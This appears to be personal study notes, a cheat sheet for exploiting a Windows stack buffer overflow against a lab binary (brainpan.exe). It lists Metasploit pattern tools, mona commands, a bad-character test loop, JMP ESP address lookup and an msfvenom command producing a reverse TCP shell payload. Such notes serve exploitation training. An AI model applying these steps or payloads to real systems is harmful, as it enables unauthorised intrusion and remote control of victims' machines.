 # BOF
### 1. Check buffer length to trigger overflow  

### 2. Cofirm overflow length, append "A" * length  

### 3. Generate Offset to check EIP, ESP location  
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

	Record value on EIP, select ESP and click "Follow in Dump"  
	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value> -l <length>  

	Use !mona to find the offset after the overflow  
	!mona findmsp  

### 4. Confirm EIP by adding "B" * 4 after the number of offset. Also, add a number of "C" to track the number of characters that can be added after EIP to confirm length of shellcode

### 5. Check bad characters after EIP. common bad characters are 0x00, 0x0A, 0x20. Follow dump in ESP to check are there something missing after that.
Add code:

	badchar = [0x00]
	for ch in range (0x00 , 0xFF+1):
		if ch not in badchar:
			<payload> += chr(ch)

### 6. Find JMP ESP address in the system.
	JMP ESP = FFE4

	!mona jmp -r esp -cpb "\x00\x0A" << bad character

	!mona modules
	!mona find -s "\xff\xe4" -m brainpan.exe

	check the value of the address by naviate to it.
	Set breakpoint
	Change "B" in EIP to the address of JMP ESP << littile edian

	e.g. 0x311712f3 >> "\xf3\x12\x17\x31"

	Run again to check is the breakpoint triggered

### 7. Add shellcode
	Add a few \x90 before shellcode to avoid shellcode being modify

	msfvenom -p windows/shell_reverse_tcp LHOST=<IP>LPORT=<PORT> EXITFUNC=thread -f <Code Format> -a x86 -platform windows -b "\x00"

### Bonus: Running out of shell code space?
Use the front of payload instead
1. Is there any register points to the front of our payload? EAX, EDX?
2. Check JMP register address
	/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

	JMP EAX/EBX/ECX/EDX

3. Append the address as shell code.
4. Add payload to the front





